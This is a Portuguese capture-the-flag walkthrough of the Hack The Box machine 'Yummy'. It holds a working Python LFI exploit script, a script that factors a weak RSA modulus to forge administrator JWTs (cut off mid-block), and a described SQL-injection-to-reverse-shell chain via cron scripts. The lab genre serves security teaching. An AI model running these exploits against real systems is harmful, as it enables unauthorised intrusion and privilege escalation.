# Yummy

## Resumo

Essa máquina expõe uma aplicação web vulnerável à LFI, o que permite a leitura arbitrária de arquivos da máquina. Dentro do arquivo /etc/crontab, é possível identificar um script de manutenção do banco de dados que pode ser explorado para obter uma shell reversa como usuário mysql. Após o acesso inicial, é possível explorar as permissões de escrita em um outro script sendo executado por um cronjob pelo usuário www-data. Alterando esse script para um payload de shell reversa, é possível escalar privilégios lateralmente como www-data. Após isso, é possível encontrar as credenciais para o usuário qa, o que permite acesso SSH à máquina. O usuário qa tem privilégios para executar o Mercurial como usuário dev e realizar o pull de um repositório. Explorando os hooks do Mercurial, é possível escalar privilégios para o usuário dev. Como usuário dev, é possível executar o rsync como root, porém é passando um wildcard para validar a execução do comando, possibilitando a passagem de argumentos como --chmod e --chown para o comando. Por conta disso, é possível copiar o binário do BASH com SUID do root, e então escalar privilégios.

## Reconhecimento

Realizei uma varredura de portas com as ferramentas `Rustscan` e `nmap`, obtendo os seguintes resultados:

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a2:ed:65:77:e9:c4:2f:13:49:19:b0:b8:09:eb:56:36 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNb9gG2HwsjMe4EUwFdFE9H8NguzJkfCboW4CveSS+cr2846RitFyzx3a9t4X7S3xE3OgLnmgj8PtKCcOnVh8nQ=
|   256 bc:df:25:35:5c:97:24:f2:69:b4:ce:60:17:50:3c:f0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEZKWYurAF2kFS4bHCSCBvsQ+55/NxhAtZGCykcOx9b6
80/tcp open  http    syn-ack ttl 63 Caddy httpd
|_http-favicon: Unknown favicon MD5: 0C6ECE85EA540E6ABEBA19B1436C17E2
|_http-title: Yummy
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Caddy
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

É possível identificar dois serviços em execução, um `OpenSSH` para acesso remoto à máquina e um servidor web na porta 80 (HTTP) por trás de uma instância do [Caddy](https://caddyserver.com/). Ao tentar acessar o servidor web, fui redirecionado para o domínio `yummy.htb`, então adicionei uma entrada para esse domínio no arquivo `/etc/hosts` da minha máquina:

```bash
echo '10.10.11.36 yummy.htb' | sudo tee -a /etc/hosts
```

Isso me permitiu acessar a seguinte página web:

<figure><figcaption><p>HTB Yummy - Página inicial</p></figcaption></figure>

Na captura acima, perceba o item `Dashboard` que destaquei na barra de navegação, indicando uma possível área disponível após se autenticar à página. Ao tentar acessar ela, fui redirecionado para a página `Login`:

<figure><figcaption><p>HTB Yummy - Página de login</p></figcaption></figure>

Utilizei a opção de cadastro para criar uma conta na aplicação e navegar como usuário autenticado. Assim que autentiquei, foi possível utilizar uma funcionalidade para reservar mesas:

<figure><figcaption><p>HTB Yummy - Reserva de mesas</p></figcaption></figure>

Preenchi esse formulário e ao voltar para a seção `Dashboard`, é possível visualizar a reserva que foi feita:

<figure><figcaption><p>HTB Yummy - Dashboard</p></figcaption></figure>

Perceba a opção `Save iCalendar` disponível na última coluna da tabela. Ao clicar nessa opção, a página realiza duas requisições:

* uma requisição `GET` para `/reminder/{ID}`, em que o id da reserva é passado;
* uma requisição `GET` para `/export/{PATH}`, em que é passado um caminho para um arquivo JSON.

Com isso, enviei a requisição para a rota `/export/{PATH}` ao repetidor e busquei por uma falha de [Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion), porém a rota sempre retorna um [status 500](https://developer.mozilla.org/pt-BR/docs/Web/HTTP/Status/500), independentemente do caminho passado. Entretanto, ao interceptar a requisição em tempo real e alterar o caminho antes de ser redirecionado, o seguinte comportamento é apresentado:

<figure><figcaption><p>HTB Yummy - Local File Inclusion</p></figcaption></figure>

Ou seja, é possível explorar uma LFI ao alterar o caminho após o `/export/` para um arquivo.

## Exploração

Mesmo encontrando a vulnerabilidade de LFI, o processo manual de exploração pode tomar muito tempo, então desenvolvi o seguinte script para facilitar:

```python
from requests import Session
from bs4 import BeautifulSoup
from requests.adapters import HTTPAdapter
import urllib.parse
import sys
import pathlib
import os

path = ""

# Um interceptador injetar o payload de LFI no endpoint /export
class RedirectInterceptor(HTTPAdapter):
    def send(self, req, **kwargs):
        if path and req.url.find("export") != -1:
            encoded_path = urllib.parse.quote(f"../../{path}", safe="")
            req.url = f"http://yummy.htb/export/{encoded_path}"
        return super().send(req, **kwargs)


# Implementa uma Session que utiliza o interceptador declarado
session = Session()
session.mount("http://", RedirectInterceptor())
session.verify = False
session.proxies = {"http": "http://127.0.0.1:8080"}

host = "http://yummy.htb"
email = sys.argv[1]
password = sys.argv[2]


# Cria um usuário com base nos argumentos informados na chamada do script
def register(email, password):
    url = host + "/register"
    data = {"email": email, "password": password}
    response = session.post(url, json=data)
    if response.status_code == 201:
        print("Account created")
    else:
        print("Account creation failed")
        sys.exit(1)


# Autentica o usuário na Session implementada
def login(email, password):
    url = host + "/login"
    data = {"email": email, "password": password}
    response = session.post(url, json=data)
    if response.status_code == 200:
        print("Login successful")
    else:
        print("Login failed, creating new account")
        register(email, password)


# Realiza uma reserva
def book_table():
    url = f"{host}/book"
    data = {"name": "HTB Player", "email": email, "phone": "1234567890", "people": 500, "date": "2025-01-01", "time": "12:00", "message": "HTB Player"}
    response = session.post(url, data=data)
    if response.status_code == 200:
        print("Table booked")
    else:
        print("Table booking failed")
        sys.exit(1)


# Obtém o link para baixar o calendário da reserva
def get_reminder_link():
    response = session.get(f"{host}/dashboard")
    soup = BeautifulSoup(response.text, "html.parser")
    table_entries = soup.body.main.find(id="why-us").div.table.tbody.find_all("tr")
    if table_entries:
        reminder_link = table_entries[0].find_all("td")[-1].a["href"].split("/")[-1]
        return reminder_link
    return None


if len(sys.argv) < 3:
    print("Usage: python3 lfi.py <email> <password>")
    sys.exit(1)


while True:
    # Verifica se o usuário está autenticado; caso não, autentica
    if not session.cookies.get("X-AUTH-Token"):
        login(email, password)
    else:
        reminder_link = get_reminder_link()
        # Caso nenhuma reserva tenha sido feito, cadastra uma reserva
        # para obter acesso ao endpoint /export
        if not reminder_link:
            book_table()
            continue
        # Espera a entrada do usuário para informar o arquivo que deseja ler
        path = input("$ cat ")
        response = session.get(f"{host}/reminder/{reminder_link}")
        if response.status_code == 404:
            print("File not found")
        else:
            # Obtém o arquivo e escreve o conteúdo no diretório ../files
            # com o nome do arquivo informado
            filename = path.split("/")[-1]
            with open(os.path.join(pathlib.Path(__file__).parent.resolve(), "../files", filename), "wb") as f:
                f.write(response.content)
            print(response.text)
```

Dessa forma, é possível simular uma shell para download de arquivos (você pode alterar o local onde os arquivos são salvos para se adaptar ao seu ambiente). Com o processo automatizado, agora basta procurar por dados sensíveis na máquina. De início, procurei por arquivos padrões do Linux, até que encontrei o seguinte conteúdo no arquivo crontab, que é um arquivo responsável pela definição de tarefas agendadas no Linux:

<figure><figcaption><p>HTB Yummy - Crontab</p></figcaption></figure>

Perceba na imagem acima que o caminho para 3 arquivos são expostos. No arquivo `/data/scripts/app_backup.sh` é realizada uma cópia comprimida como Zip e salva em `/var/www/backupapp.zip`:


```bash
#!/bin/bash

cd /var/www
/usr/bin/rm backupapp.zip
/usr/bin/zip -r backupapp.zip /opt/app
```


No arquivo `/data/scripts/table_cleanup.sh`, é realizada a limpeza do banco de dados por meio de um script SQL:


```bash
#!/bin/sh

/usr/bin/mysql -h localhost -u chef yummy_db -p'<REDACTED>' < /data/scripts/sqlappointments.sql
```


No arquivo `/data/scripts/dbmonitor.sh`, é realizada uma validação do banco de dados para identificar possíveis instabilidades:


```bash
#!/bin/bash

timestamp=$(/usr/bin/date)
service=mysql
response=$(/usr/bin/systemctl is-active mysql)

if [ "$response" != 'active' ]; then
    /usr/bin/echo "{\"status\": \"The database is down\", \"time\": \"$timestamp\"}" > /data/scripts/dbstatus.json
    /usr/bin/echo "$service is down, restarting!!!" | /usr/bin/mail -s "$service is down!!!" root
    latest_version=$(/usr/bin/ls -1 /data/scripts/fixer-v* 2>/dev/null | /usr/bin/sort -V | /usr/bin/tail -n 1)
    /bin/bash "$latest_version"
else
    if [ -f /data/scripts/dbstatus.json ]; then
        if grep -q "database is down" /data/scripts/dbstatus.json 2>/dev/null; then
            /usr/bin/echo "The database was down at $timestamp. Sending notification."
            /usr/bin/echo "$service was down at $timestamp but came back up." | /usr/bin/mail -s "$service was down!" root
            /usr/bin/rm -f /data/scripts/dbstatus.json
        else
            /usr/bin/rm -f /data/scripts/dbstatus.json
            /usr/bin/echo "The automation failed in some way, attempting to fix it."
            latest_version=$(/usr/bin/ls -1 /data/scripts/fixer-v* 2>/dev/null | /usr/bin/sort -V | /usr/bin/tail -n 1)
            /bin/bash "$latest_version"
        fi
    else
        /usr/bin/echo "Response is OK."
    fi
fi

[ -f dbstatus.json ] && /usr/bin/rm -f dbstatus.json
```


Por fim, decidi baixar o backup da aplicação (presente em `/var/www/backupapp.zip`) para analisar o código-fonte. Dentre os arquivos, foi possível encontrar uma vulnerabilidade de SQL injection:

<figure><figcaption><p>HTB Yummy - SQL injection</p></figcaption></figure>

Observe na imagem acima que o parâmetro `order_query` é passado sem qualquer sanitização por meio de uma f-string do Python, fazendo com que seja possível injetar instruções SQL na query. Entretanto, essa rota é restrita ao usuário `administrator`, o que é validado pelo conteúdo presente no campo `role` no payload do token JWT. Analisando o código que verifica o token JWT, é possível identificar onde a chave está sendo gerada:

<figure><figcaption><p>HTB Yummy - Arquivo verification.py</p></figcaption></figure>

O seguinte conteúdo está presente no arquivo `signature`:


```python
#!/usr/bin/python3

from Crypto.PublicKey import RSA
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import serialization
import sympy


# Generate RSA key pair
q = sympy.randprime(2**19, 2**20)
n = sympy.randprime(2**1023, 2**1024) * q
e = 65537
p = n // q
phi_n = (p - 1) * (q - 1)
d = pow(e, -1, phi_n)
key_data = {'n': n, 'e': e, 'd': d, 'p': p, 'q': q}
key = RSA.construct((key_data['n'], key_data['e'], key_data['d'], key_data['p'], key_data['q']))
private_key_bytes = key.export_key()

private_key = serialization.load_pem_private_key(
    private_key_bytes,
    password=None,
    backend=default_backend()
)
public_key = private_key.public_key()
```


No código acima, `q` está sendo gerado num intervalo muito pequeno, o que possibilita um ataque de fatoração e permite gerar um par de chaves público/privada para modificar o token JWT e assinar novamente de forma que a aplicação valide ele. Entretanto, é necessário o valor de `n` para o ataque, que pode ser obtido da seguinte forma:

* Crie um usuário na aplicação;
* Obtenha o token JWT por meio do cookie `X-AUTH-Token`;
* Utilize uma ferramenta como o [jwt\_tool](https://github.com/ticarpi/jwt_tool) ou [jwt.io](https://jwt.io/) para obter o valor de n:

<figure><figcaption><p>HTB Yummy - obtendo n por meio de um token válido</p></figcaption></figure>

Com base no código que gera a chave e com o auxílio do Llama, foi possível desenvolver o seguinte script que obtém as chaves pública e privada, permitindo forjar um token válido passando `administrator` como `role`:

```python
# Importa as bibliotecas necessárias
import sympy  # Biblioteca para operações matemáticas simbólicas
import sys  # Biblioteca para interagir com o sistema operacional
from Crypto.PublicKey import RSA  # Biblioteca para criptografia com chaves públicas
from cryptography.hazmat.backends import default_backend  # Biblioteca para criptografia
from cryptography.hazmat.primitives import serialization  # Biblioteca para serialização de dados

# Verifica se o usuário forneceu o argumento necessário (n)
if len(sys.argv) < 2:
    # Se não, imprime a mensagem de uso e sai do programa
    print(f"Usage: python3 <{sys.argv[0]}> <n>")
    sys.exit(1)

# Função para fatorar o número n em dois primos p e q
def factorize_n(n, max_bits=20):
    """
    Fatora o número n em dois primos p e q.

    Args:
        n (int): O número a ser fatorado.
        max_bits (int): O número máximo de bits para os primos p e q.

    Returns:
        tuple: Uma tupla contendo os primos p e q, ou None se não for possível fatorar n.
    """
    # Itera sobre todos os números possíveis para q
    for q in range(2**19, 2**max_bits):
        # Verifica se q é um primo e se n é divisível por q
        if sympy.isprime(q) and n % q == 0:
            # Calcula p como n dividido por q
            p = n // q
            # Verifica se p é um primo
            if sympy.isprime(p):
                # Se p e q são primos, retorna a tupla (p, q)
                return p, q
    # Se não for possível fatorar n, retorna (None, None)
    return None, None

# Função para gerar um par de chaves RSA a partir dos primos p e q
def generate_keypair(p, q):
    """
    Gera um par de chaves RSA a partir dos primos p e q.

    Args:
        p (int): O primo p.
        q (int): O primo q.

    Returns:
        tuple: Uma tupla contendo a chave privada e a chave pública.
    """
    # Calcula n como o produto de p e q
    n = p * q
    # Calcula phi como (p-1) * (q-1)
    phi = (p - 1) * (q - 1)
    # Define o expoente público e
    e = 65537
    # Calcula o expoente privado d como o inverso modular de e em phi
    d = pow(e, -1, phi)
    # Cria um dicionário com os dados da chave
    key_data = {
        "n": n,
        "e": e,
        "d": d,
        "p": p,
        "q": q,
    }
    # Cria uma chave RSA a partir dos dados
    key = RSA.construct((key_data['n'], key_data['e'], key_data['d'], key_data['p'], key_data['q']))
    # Exporta a chave privada em formato PEM
    private_key_bytes = key.exportKey()
    # Carrega a chave privada em formato PEM
    private_key = serialization.load_pem_private_key(
        private_key_bytes,
        password=None,
        backend=default_backend()
    )
    # Obtem a chave pública a partir da chave privada
    public_key = private_key.public_key().public_bytes(serialization.Encoding.OpenSSH, serialization.PublicFormat.OpenSSH)
    # Retorna a chave privada e a chave pública
    return private_key_bytes, public_key

# Obtem o valor de n do argumento de linha de comando
n = int(sys.argv[1])
# Fatora n em p e q
p, q = factorize_n(n)

# Se p e q forem encontrados, gera o par de chaves RSA
if p and q:
    # Imprime a mensagem de sucesso
    print(f"Fatores encontrados: p = {p}, q = {q}")
    # Gera o par de chaves RSA
    private_key, public_key = generate_keypair(p, q)
    # Imprime a mensagem de sucesso
    print("Chave privada salva em 'private_key.pem' e chave pública salva em 'public_key.pem'")
    # Salva a chave privada em um arquivo
    with open("private_key.pem", "wb") as f:
```

Com o par de chaves, basta utilizar uma das ferramentas citadas anteriormente para gerar um token válido. Como exemplo do [jwt.io](https://jwt.io/), é possível passar o par de chaves logo abaixo do payload:

<figure><figcaption><p>HTB Yummy - Gerando um token de administrador válido</p></figcaption></figure>

Agora, é possível alterar o cookie `X-AUTH-Token` no navegador para o token forjado e acessar o painel do administrador. Com isso, é possível explorar a vulnerabilidade de SQL injection citada anteriormente e obter uma shell reversa como usuário `mysql`. Para isso, criei um payload de shell reversa em BASH localmente, coloquei um servidor Python em execução usando o comando `python3 -m http.server`, e executei uma query para alterar o conteúdo de `dbstatus.json` -  indicando uma falha no banco de dados - e escrevendo um script em BASH num arquivo de fixer que baixa o payload de shell reversa e a executa:

<figure><figcaption><p>HTB Yummy - SQL injection para shell reversa</p></figcaption></figure>

Assim que o cronjob que verifica o banco de dados executa, uma conexão se abre com o listener local:

<figure><figcaption><p>HTB Yummy - Shell reversa estabelecida como usuário mysql</p></figcaption></figure>

## Pós exploração

### Escalação de Privilégio Lateral

#### Usuário www-data

Como usuário `mysql`, é possível apagar o arquivo `app_backup.sh` e escrever outro arquivo com o mesmo nome. Como no arquivo crontab está definido para esse script ser executado como o usuário `www-data`, é possível injetar um payload de shell reversa no arquivo e escalar privilégio para o usuário `www-data` quando o arquivo for executado:

<figure><figcaption><p>HTB Yummy - Shell reversa como www-data</p></figcaption></figure>

#### Usuário qa

Assim que consegui acesso como usuário www-data, identifiquei que o usuário tem acesso ao diretório em que está hospedado o código-fonte da aplicação. Nesse diretório, é possível visualizar um subdiretório `.hg`, o que indica que o [Mercurial](https://www.mercurial-scm.org/) está sendo utilizado para controle de versionamento. Assim como o git, o Mercurial também permite visualizar o histórico de commits por meio do comando `hg tip -p`, e ao executar esse comando eu obtive acesso às credenciais do usuário `qa`:

<figure><figcaption><p>HTB Yummy - Credenciais do usuário qa</p></figcaption></figure>

#### Usuário dev

Com acesso SSH à máquina por meio do usuário `qa`, é possível observar no diretório home do usuário um arquivo de configuração do Mercurial com o nome de `.hgrc`. Por meio desse arquivo, é possível configurar um hook, isto é, uma ou mais instruções que executam a partir de um gatilho. Além disso, ao executar o comando `sudo -l`, a seguinte entrada é retornada:

```bash
Matching Defaults entries for qa on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User qa may run the following commands on localhost:
    (dev : dev) /usr/bin/hg pull /home/dev/app-production/
```

